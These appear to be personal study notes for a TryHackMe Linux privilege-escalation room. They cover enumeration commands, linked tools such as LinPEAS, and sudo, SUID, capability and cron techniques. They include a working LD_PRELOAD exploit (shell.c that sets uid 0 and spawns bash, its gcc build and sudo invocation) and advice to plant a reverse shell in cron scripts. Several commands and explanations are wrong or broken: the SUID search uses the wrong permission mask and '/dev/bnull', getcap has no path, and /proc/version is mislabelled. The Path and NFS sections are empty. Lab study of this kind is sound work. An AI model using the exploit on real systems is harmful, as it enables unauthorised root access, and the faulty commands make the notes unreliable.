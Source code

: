 

https://tryhackme.com/r/room/linprivesc

####  Enumeration

Get information on installed processes
```
/proc/version
```

To find information on the operating system
```
/etc/issue
```

List out active processes 
```
ps -a 
```

List out env variables
```
env
```

Check which sudo commands a user can run
```
sudo -l 
```

Check the configured routes 
```
ip route
```

#### Automated Enumeration Tools

- **LinPeas**: [https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
- **LinEnum:** [https://github.com/rebootuser/LinEnum](https://github.com/rebootuser/LinEnum)[](https://github.com/rebootuser/LinEnum)
- **LES (Linux Exploit Suggester):** [https://github.com/mzet-/linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester)
- **Linux Smart Enumeration:** [https://github.com/diego-treitos/linux-smart-enumeration](https://github.com/diego-treitos/linux-smart-enumeration)
- **Linux Priv Checker:** [https://github.com/linted/linuxprivchecker](https://github.com/linted/linuxprivchecker)


#### Exploits


####  Sudo

**Leverage LD_PRELOAD**

After running the sudo -l command there might be a configuration which allows loading a program before executing a sudo command. 
In this case a shared library file 
I'm unsure about the specifics but shared libraries are used to be called by other kernel programs. 
A sudo shell is launched before the actual command is ran. 


```
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

shell.so
```
#include <stdio.h>  
#include <sys/types.h>  
#include <stdlib.h>  
  
void _init() {  
unsetenv("LD_PRELOAD");  
setgid(0);  
setuid(0);  
system("/bin/bash");  
}
```

For example is the command a user is allowed to run as root is the "find" command. 
```
sudo LD_PRELOAD=/path/to/shell.so find
```


####  SUID

SUID allows a file or folder to be executed as the owner or group
For instance if a file is owned by Jordan with a SUID, Dan can run the command. 

To list files with the SUID or SGID bit set. 
```
find / -type f -perm 0400 -ls 2>/dev/bnull
```


#### Capabilities

Capabilities is a command to allow a system admin to granular control over how a process is executed and by whom. 

To list enabled capabilities
```
getcap -r 2>/dev/null
```

#### Cron Jobs

Check cron jobs to see if any  are running as a different user to elevate privileges.
```
cat /etc/crontab
```

It's best to configure any script to run a reverse shell to the attacking machine. 
A listener socket will need to be setup on the attackers machines to accept the connection from the victim machine. 



#### Path 

By confirming if 
```

```

#### NFS

